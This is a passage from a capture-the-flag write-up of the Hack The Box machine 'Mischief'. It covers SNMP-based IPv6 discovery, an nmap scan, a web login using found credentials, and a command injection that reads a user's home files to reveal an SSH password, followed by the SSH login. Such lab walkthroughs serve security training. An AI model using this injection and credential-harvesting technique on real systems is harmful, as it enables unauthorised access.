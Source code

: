     #                   Author: Thanasis Tserpelis aka Trickster0                     #
    #                                                                                 #
    ###################################################################################


    [+] Snmpwalk found.
    [+] Grabbing IPv6.
    [+] Loopback -> 0000:0000:0000:0000:0000:0000:0000:0001
    [+] Unique-Local -> dead:beef:0000:0000:0250:56ff:feb9:8e66
    [+] Link Local -> fe80:0000:0000:0000:0250:56ff:feb9:8e66

We found IPv6 addresses, so let's analyze that! : D the only IPV6 addresses that work this is the **Unique-Local**

    root@seyptoo-Aspire-E5-721:~/htb/writeup/Mischief/Enyx# nmap -6 -sV dead:beef:0000:0000:0250:56ff:feb9:8e66

    Starting Nmap 7.01 ( https://nmap.org ) at 2018-12-28 11:10 CET
    Nmap scan report for dead:beef::250:56ff:feb9:8e66
    Host is up (0.067s latency).
    Not shown: 998 closed ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
    80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
Yes ! We find ports, we access the WEB server and see what we find. :D

IPV6 HTTP
----
[![forthebadge made-with-python](http://image.noelshack.com/fichiers/2018/52/5/1545992242-capture-du-2018-12-28-11-17-08.png)](https://hackthebox.eu)

I tried several attempts and I found the users and password.

> Username : **Administrator** <br />
> Password : **trickeryanddeceit** (This is the password in the main web page.)

Perfect we have access now to bypass that, after several attempts I found to read files and execute specific commands.

[![forthebadge made-with-python](http://image.noelshack.com/fichiers/2018/52/5/1545992557-capture-du-2018-12-28-11-22-28.png)](https://hackthebox.eu)

I typed that and I found the password for good, so we can connect in SSH and have a shell! :D

> cat /home/loki/* && ping -c 2 127.0.0.1 <br />

> Password : lokiisthebestnorsegod <br />

    root@seyptoo-Aspire-E5-721:~/htb/writeup/Mischief/Enyx# ssh loki@10.10.10.92 -t bash
    loki@10.10.10.92's password: 
    loki@Mischief:~$ 
  
